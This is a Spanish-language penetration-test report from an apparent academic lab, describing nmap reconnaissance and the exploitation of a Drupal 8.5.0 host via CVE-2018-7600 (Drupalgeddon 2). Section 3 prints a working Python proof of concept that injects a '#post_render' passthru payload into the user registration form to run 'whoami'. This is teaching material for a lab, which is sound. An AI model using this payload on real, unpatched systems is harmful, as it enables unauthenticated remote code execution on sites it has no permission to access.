




# Reporte de Prueba de Penetración: Laboratorio Drupalgeddon 2 (CyberMindsEPN)

## 1. Reconocimiento
* **Objetivo:** Identificar hosts activos dentro del segmento de red local aislado del laboratorio (`192.168.56.0/24`) y descubrir posibles vectores de ataque o servicios web expuestos para la auditoría de seguridad.
* **Herramientas utilizadas:** `nmap` (Network Mapper) para el descubrimiento de activos e identificación de puertos.
* **Hallazgos:** Se identificó una única máquina activa en la dirección IP `192.168.56.101` que responde a las solicitudes de eco (ping) dentro del entorno controlado del laboratorio.

---


## 2. Escaneo y Enumeración
* **Puertos y Servicios Abiertos:** El escaneo detallado de puertos mediante el comando `nmap -p 8080 -sV 192.168.56.101` reveló el siguiente servicio activo:
  * **Puerto 8080/TCP:** Estado *open* (abierto). Servicio `http`. Versión detectada: Apache httpd (alojando una instancia del CMS Drupal).




* **Vulnerabilidades identificadas:** Al acceder a la aplicación web a través del navegador, se detectó una instalación activa del sistema de gestión de contenidos Drupal en su versión **8.5.0**. 


  Tras consultar las bases de datos de MITRE y CVE, se determinó que esta versión específica es críticamente vulnerable a fallas de inyección en su API de renderizado, catalogada bajo el identificador internacional **CVE-2018-7600** (conocida comúnmente en la industria como *Drupalgeddon 2*).

---

## 3. Obtención de Acceso (Explotación)
* **Vulnerabilidad explotada:** CVE-2018-7600 - Drupal Core Remote Code Execution (RCE).
* **Metodología/PoC:** La explotación se realizó de manera remota y sin autenticación previa mediante un script automatizado en Python que utiliza la librería estándar `requests`. El script interactúa con el endpoint de registro de usuarios anónimos (`/user/register`), inyectando un parámetro malicioso estructurado en los vectores de datos de la Render API.

  Aprovechando la falta de sanitización en las propiedades internas que inician con el carácter `#`, se abusó de la directiva `#post_render` para invocar la función nativa de PHP `passthru` ejecutando de manera directa el comando de Linux `whoami`.

  El código del script de Prueba de Concepto (PoC) empleado se detalla a continuación:



```python
  #!/usr/bin/env python3
  import requests

  TARGET_IP = "192.168.56.101" 
  PORT = "8080"
  url = f"http://{TARGET_IP}:{PORT}/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax"

  payload = {
      'form_id': 'user_register_form',
      '_drupal_ajax': '1',
      'mail[#post_render][]': 'passthru',
      'mail[#type]': 'markup',
      'mail[#markup]': 'whoami'
  }

  print(f"[*] Enviando exploit (PoC) a {TARGET_IP}:{PORT}...")
  response = requests.post(url, data=payload, timeout=10)

  if response.status_code == 200:
      print("[+] ¡Explotación exitosa! Respuesta recibida del servidor:")
      print("-" * 50)
      print(response.text.split('[{"command"')[0].strip())
      print("-" * 50)
```



## 4. Mantenimiento de Acceso

    Al tratarse de una auditoría técnica orientada exclusivamente al desarrollo y validación de una Prueba de Concepto (PoC) académica, no se instalaron mecanismos de persistencia en el host objetivo para resguardar la estabilidad y la integridad de los servicios del laboratorio.

    Herramientas/Backdoors: N/A (No se crearon usuarios administradores, tareas programadas en el cron, ni se subieron webshells o conexiones reversas permanentes).

## 5. Borrado de Huellas

    Siguiendo las políticas éticas y de buenas prácticas establecidas para entornos de pruebas locales controlados, no se modificaron ni destruyeron registros internos de auditoría de Linux ni archivos históricos del servidor web Apache (access.log o error.log).

    Debido a que el script del PoC interactuó directamente en la memoria del proceso web mediante variables de peticiones HTTP en la Render API, no se escribieron ni guardaron archivos temporales en el disco duro del servidor víctima. Por lo tanto, no se requirió la ejecución de tareas de limpieza posterior. El laboratorio quedó en su estado nativo limpio.